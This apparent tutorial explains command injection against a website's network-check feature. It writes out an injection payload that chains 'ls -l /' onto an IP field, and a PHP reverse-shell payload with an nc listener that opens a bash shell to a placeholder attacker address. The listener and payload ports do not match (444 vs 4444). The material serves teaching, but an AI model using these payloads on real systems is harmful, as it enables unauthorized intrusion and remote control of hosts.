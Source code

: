 ## **Overview**

Command injection is **an attack in which the goal is execution of arbitrary commands on the host operating system via a vulnerable application**.


## **General Exploitation**

- Given a website with a **network check**

![](https://i.imgur.com/KDBjndk.png)

- Anytime we input an **IP Address** or a domain name we can see it checks it up and even tells us the `curl` request been made

![](https://i.imgur.com/FmN5Hy0.png)

- We could use special operators like `| && || ;` to perform command execution after the given **IP/domain name**, right here i will be using this query

```
127.0.0.1 ; ls -l / #
```


> **Note :** the `#` symbol at the end of this query comments out the `| grep "HTTP/"` thereby not making it to execute


![For better view, view page-source](https://i.imgur.com/vRTb9hc.png)


#### **Bonus**

We can also attempt to get a reverse shell

- On your terminal do 

```bash
$ nc -lvnp 444
```

- Navigate to the website and use payload :

```PHP
; php -r '$sock=fsockopen("IP_ADDRESS",4444);exec("/bin/bash <&3 >&3 2>&3");' #
```


